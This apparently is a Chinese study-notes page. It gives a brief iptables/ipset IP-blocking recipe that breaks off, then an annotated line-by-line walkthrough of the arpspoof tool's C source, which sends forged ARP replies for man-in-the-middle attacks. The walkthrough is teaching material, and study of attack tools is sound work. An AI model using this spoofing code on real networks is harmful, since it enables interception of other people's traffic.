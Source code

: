 iptables 包含几个表，每个表由链组成。默认的是 filter 表，最常用的也是 filter 表，另一个比较常用的是 nat 表。一般封 IP 就是在 filter 表的 INPUT 链添加规则。

在进行规则匹配时，是从规则列表中从头到尾一条一条进行匹配。

可以用这几条命令概括使用 ipset 和 iptables 进行 IP 封禁的流程

ipset create vader hash:ip  
iptables -I INPUT -m set --match-set vader src -j DROP  
ipset add vader 4.5.6.7  
ipset add vader 1.2.3.4  
ipset add vader ...  
ipset list vader # 查看 vader 集合的内容  

下面分别对各条命令进行描述。

###哎，技术太菜，需要好好学习了！！！

###arp  xss
---to learn---


---
---
代码理解：

从main函数开始

首先大家不要慌，我加了无数注释，这个工具的代码也不过400行而已。首先我们看一下main函数：

为了避免大家看起来太紧张，我在源码的注释中加了详细的讲解，方便基础薄弱的同学理解：

int main(int argc, char *argv[])
{
       int c;
       char ebuf[PCAP_ERRBUF_SIZE];
       intf = NULL;
       spoof_ip = target_ip = 0;
 
 /**
      关于getopt这个函数我想做如下解释大家就可以读懂下面的函数的具体意思了：
      1.getopt的用途：用于专门处理函数参数的。
      2.getopt的用法：argc与argv直接是从main的参数中拿下来的，第三个参数描述了整个程序参数的命令要求
                    具体的用法我们可以先理解为要求i,t这两个参数必须有值
                    然后有具体值得参数会把值付给全局变量optarg，这样我们就能理解下面的while循环中的操作了
 */
       while ((c = getopt(argc, argv, "i:t:h?V")) != -1) {
 
              switch (c) {
 
              case 'i':
                     intf = optarg;
                     break;
              case 't':
/*
       libnet_name_resolve是解析域名,然后把域名解析的结果形成ip地址返回到target_ip
*/
                     if ((target_ip = libnet_name_resolve(optarg, 1)) == -1)
                            usage();
                     break;
              default:
                     usage();
 
              }
 
       }
      
       argc -= optind;
       argv += optind;
 
       if (argc != 1)
              usage();
 
       if ((spoof_ip = libnet_name_resolve(argv[0], 1)) == -1)
              usage();
 
      /*
      pcap_lookupdev 顾名思义这个pcap库中的函数是用来寻找本机的可用网络设备。
      下面的if语句是将如果intf（-i的参数为空就调用pcap_lookupdev来寻找本机的网络设备）      
      ebuf就是error_buf用来存储错误信息
      */
       if (intf == NULL && (intf = pcap_lookupdev(ebuf)) == NULL)
              errx(1, "%s", ebuf);
 
 /*
 libnet_open_link_interface这个函数存在于libnet库中，作用是打开intf指向的网络链路设备
 错误信息存入ebuf中。
 */
       if ((llif = libnet_open_link_interface(intf, ebuf)) == 0)
              errx(1, "%s", ebuf);
 
 /*
 下面语句的意思是如果target_ip为0或者是arp_find没有成功找到target_ip
 那么提示错误
 */
       if (target_ip != 0 && !arp_find(target_ip, &target_mac))
              errx(1, "couldn't arp for host %s",
     libnet_host_lookup(target_ip, 0));
 
 //这里关于信号的处理问题如果大家不是太清楚的话也可以跳过，
 //有兴趣的朋友，可以深入了解一下，因为这里不是本文重点，就不再赘述了
       signal(SIGHUP, cleanup);
       signal(SIGINT, cleanup);
       signal(SIGTERM, cleanup);
 
       for (;;) {
             /*
                    在这个for的循环里我们看到了我们希望看到的核心模块
      arp_send大家一看这个函数便知道这个函数是用来发送伪造的arp数据包的，关于这个函数具体的用法我们稍后将会讨论
              */   
              arp_send(llif, intf, ARPOP_REPLY, NULL, spoof_ip,
                    (target_ip ? (u_char *)&target_mac : NULL),
                    target_ip);
              sleep(2);
 
       }
/* NOTREACHED */
 
       exit(0);
 
}

看了main函数里面的各种东西，我们发现并没有什么玄机，其实就是很简单的编程，具体的函数讲解都在注释中写出来了。

核心函数的登场 

接下来我们就看一下他是如何实现发送arp包的，其实知道大家看了源代码以后就知道，这真的没有什么技术含量，

/**
      这里是我们发送arp包的核心实现
      我先来介绍一下这个函数的参数方便大家理解
      参数一：libnet链路层接口，通过这个接口可以操作链路层
      参数二：本机的网卡设备intf（由-i指定或者pcap_lookupdev来获取）
      参数三：arpop，来指定arp包的操作
      参数四：本机硬件地址
      参数五：本机ip
      参数六：目标硬件地址
      参数七：目标ip
 */
int arp_send(struct libnet_link_int *llif, char *dev,
 int op, u_char *sha, in_addr_t spa, u_char *tha, in_addr_t tpa)
{
 
       char ebuf[128];
       u_char pkt[60];
 
 /*
 这里来通过链路层和网卡来获取dev对应的mac地址*/
       if (sha == NULL &&
    (sha = (u_char *)libnet_get_hwaddr(llif, dev, ebuf)) == NULL) {
 
              return (-1);
 
       }
       /*
       这里通过链路层和网卡来获取dev对应的ip地址
       */
 
       if (spa == 0) {
 
              if ((spa = libnet_get_ipaddr(llif, dev, ebuf)) == 0)
                     return (-1);
              spa = htonl(spa); /* XXX */
 
       }
      
       /*
       如果目标mac没有的话就被赋值为\xff\xff\xff\xff\xff\xff
       */
       if (tha == NULL)
              tha = "\xff\xff\xff\xff\xff\xff";
 
 /*
libnet_ptag_t libnet_build_ethernet(
u_int8_t*dst, u_int8_t *src,
u_int16_ttype, u_int8_t*payload,
u_int32_tpayload_s, libnet_t*l,
libnet_ptag_t ptag )
功能：
构造一个以太网数据包
参数：
dst：目的 mac
src：源 mac
type：上层协议类型
payload：负载，即附带的数据，可设置为 NULL（这里通常写 NULL）
payload_s：负载长度，或为 0（这里通常写 0 ）
l：libnet 句柄，libnet_init() 返回的 libnet * 指针
ptag：协议标记，第一次组新的发送包时，这里写 0，同一个应用程序，下一次再组包时，这个位置的值写此函数的返回值。
返回值：
成功：协议标记
失败：-1
 */
       libnet_build_ethernet(tha, sha, ETHERTYPE_ARP, NULL, 0, pkt);
 /*
 libnet_ptag_t libnet_build_arp(
u_int16_t hrd, u_int16_t pro,
u_int8_t hln, u_int8_t pln，
u_int16_t op, u_int8_t *sha,
u_int8_t *spa, u_int8_t *tha，
u_int8_t *tpa, u_int8_t *payload，
u_int32_t payload_s, libnet_t *l,
libnet_ptag_t ptag )
功能：
构造 arp 数据包 
参数： 
hrd：硬件地址格式，ARPHRD_ETHER（以太网） 
pro：协议地址格式，ETHERTYPE_IP（ IP协议） 
hln：硬件地址长度 
pln：协议地址长度 
op：ARP协议操作类型（1：ARP请求，2：ARP回应，3：RARP请求，4：RARP回应） 
sha：发送者硬件地址 
spa：发送者协议地址 
tha：目标硬件地址 
tpa：目标协议地址 
payload：负载，可设置为 NULL（这里通常写 NULL） 
payload_s：负载长度，或为 0（这里通常写 0 ） 
l：libnet 句柄，libnet_init() 返回的 libnet * 指针 
ptag：协议标记，第一次组新的发送包时，这里写 0，同一个应用程序，下一次再组包时，这个位置的值写此函数的返回值。 
返回值： 
成功：协议标记 
失败：-1
 */
       libnet_build_arp(ARPHRD_ETHER, ETHERTYPE_IP, ETHER_ADDR_LEN, 4,
             op, sha, (u_char *)&spa, tha, (u_char *)&tpa,
             NULL, 0, pkt + ETH_H);
 
       fprintf(stderr, "%s ",
       ether_ntoa((struct ether_addr *)sha));
 
 
 
 /*
 下面的if和else是回显处理（也就是大家能看到的部分
 */
       if (op == ARPOP_REQUEST) {
 
              fprintf(stderr, "%s 0806 42: arp who-has %s tell %s\n",
                     ether_ntoa((struct ether_addr *)tha),
                     libnet_host_lookup(tpa, 0),
                     libnet_host_lookup(spa, 0));
 
       }
       else {
 
              fprintf(stderr, "%s 0806 42: arp reply %s is-at ",
                     ether_ntoa((struct ether_addr *)tha),
                     libnet_host_lookup(spa, 0));
              fprintf(stderr, "%s\n",
                     ether_ntoa((struct ether_addr *)sha));
 
       }
       return (libnet_write_link_layer(llif, dev, pkt, sizeof(pkt)) == sizeof(pkt));
 
}

我们看到这其实真的没有什么很神奇的内容对吧？

小尾巴

 /*
      下面我们发现挂载信号处理函数的都是cleanup函数，
      这个函数很好理解，就是在本机网络设备存在的条件下把包再发三遍，
     
      但是为什么要这么做呢？似乎立即中断也没什么不合理，
      我想作者的意思就是总要给一个缓冲的时间啊
 
      我们再仔细观察一下，在main的主循环中是sleep(2)
      在下面的循环中是sleep(1)
     
 */
void cleanup(int sig)
{
 
       int i;
 
       if (arp_find(spoof_ip, &spoof_mac)) {
 
              for (i = 0; i < 3; i++) {
 
/* XXX - on BSD, requires ETHERSPOOF kernel. */
 
/*上面这条注释是源码的作者加的，意思是说在BSD系统中需要ETHERSPOOF的第三方内核模块*/
                     arp_send(llif, intf, ARPOP_REPLY,
                           (u_char *)&spoof_mac, spoof_ip,
                           (target_ip ? (u_char *)&target_mac : NULL),
                           target_ip);
                     sleep(1);
 
              }
 
       }     
       exit(0);
 
}

这样我们还有什么不理解么？在《中间人攻击-ARP毒化》一文中，arpspoof这个工具被我们以这样的方式解密，大家是否开始觉得其实这并没有任何神奇的地方？这就是我们神化的黑客工具吧。 
